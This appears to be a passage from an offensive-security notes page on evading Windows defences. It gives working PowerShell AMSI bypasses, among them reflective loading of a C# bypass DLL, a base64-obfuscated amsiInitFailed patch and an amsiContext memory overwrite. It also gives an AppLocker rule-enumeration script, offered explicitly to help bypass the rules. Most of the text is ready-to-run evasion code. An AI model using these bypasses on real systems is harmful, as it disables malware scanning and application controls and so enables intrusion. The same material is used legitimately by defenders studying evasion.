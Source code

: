 Another method could be to compile the C# bypass to a .NET DLL and use PowerShell to load it reflectively.

```powershell
PS C:\> $bytes = [System.IO.File]::ReadAllBytes("c:\tools\AmsiTest\bin\Debug\AmsiTest.dll")
PS C:\> [System.Reflection.Assembly]::Load($bytes)
GAC Version Location
--- ------- -------
False v4.0.30319
PS C:\> [Amsi]::Bypass()
PS C:\> Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program.
```

```powershell
# Base 64 AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)


$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```


### 4) Applocker 

Fortunately for us, there is a powershell module named AppLocker, which can query the AppLocker rules that are enforced on the current system. 
Below is a simple powershell script that outputs the rules in a readable format so you can use this information to bypass them.

```powershell

Import-Module AppLocker
[xml]$data = Get-AppLockerPolicy -effective -xml

# Extracts All Rules and print them.
Write-Output "[+] Printing Applocker Rules [+]`n"
($data.AppLockerPolicy.RuleCollection | ? { $_.EnforcementMode -match "Enabled" }) | ForEach-Object -Process {
Write-Output ($_.FilePathRule | Where-Object {$_.Name -NotLike "(Default Rule)*"}) | ForEach-Object -Process {Write-Output "=== File Path Rule ===`n`n Rule Name : $($_.Name) `n Condition : $($_.Conditions.FilePathCondition.Path)`n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
Write-Output ($_.FileHashRule) | ForEach-Object -Process { Write-Output "=== File Hash Rule ===`n`n Rule Name : $($_.Name) `n File Name :  $($_.Conditions.FileHashCondition.FileHash.SourceFileName) `n Hash type : $($_.Conditions.FileHashCondition.FileHash.Type) `n Hash :  $($_.Conditions.FileHashCondition.FileHash.Data) `n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
Write-Output ($_.FilePublisherRule | Where-Object {$_.Name -NotLike "(Default Rule)*"}) | ForEach-Object -Process {Write-Output "=== File Publisher Rule ===`n`n Rule Name : $($_.Name) `n PublisherName : $($_.Conditions.FilePublisherCondition.PublisherName) `n ProductName : $($_.Conditions.FilePublisherCondition.ProductName) `n BinaryName : $($_.Conditions.FilePublisherCondition.BinaryName) `n BinaryVersion Min. : $($_.Conditions.FilePublisherCondition.BinaryVersionRange.LowSection) `n BinaryVersion Max. : $($_.Conditions.FilePublisherCondition.BinaryVersionRange.HighSection) `n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
}

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections	
Get-AppLockerPolicy -Local).RuleCollections
```